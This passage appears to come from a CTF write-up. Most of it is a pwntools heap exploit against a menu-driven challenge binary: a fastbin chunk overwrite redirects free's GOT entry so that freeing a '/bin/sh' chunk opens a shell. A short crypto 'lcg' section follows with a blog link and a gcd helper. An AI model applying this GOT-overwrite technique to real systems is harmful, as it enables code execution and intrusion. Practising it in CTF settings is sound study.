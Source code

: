```python

def delete(index):
    r.recvuntil("Your choice :")
    r.sendline(str(3))
    r.recvuntil("Index :")
    r.sendline(str(index))
    r.recvuntil("Done !")

def edit(index,size,content):
    r.recvuntil("Your choice :")
    r.sendline(str(2))
    r.recvuntil("Index :")
    r.sendline(str(index))
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap : ")
    r.sendline(content)
    r.recvuntil("Done !")

create(0x10,b'a' * 0x10)  # idx0
create(0x10,b'a' * 0x10)  # idx1  
create(0x60,b'b' * 0x10)  # idx2 
create(0x10,b'/bin/sh\x00')  # id3 
delete(2)
edit(1,0x30,0x10 * b'a' + p64(0) + p64(0x71) + p64(0x6020ad) + p64(0))

create(0x60,b'd' * 0x10)  # idx1  
p=0x23 * b'e' + p64(free_got)
create(0x60,p)  # idx4 
edit(0,0x8,p64(0x400C2C))

r.recvuntil(b"Your choice :")
r.sendline(str(3))
r.recvuntil(b"Index :")
r.sendline(str(3))

r.interactive()
```
### lcg
参考这个博客，可以直接出https://blog.csdn.net/superprintf/article/details/108964563
```python
from Crypto.Util.number import *

def gcd(a,b): 
    if(b==0): 
        return a 
    else: 
        return gcd(b,a%b) 

```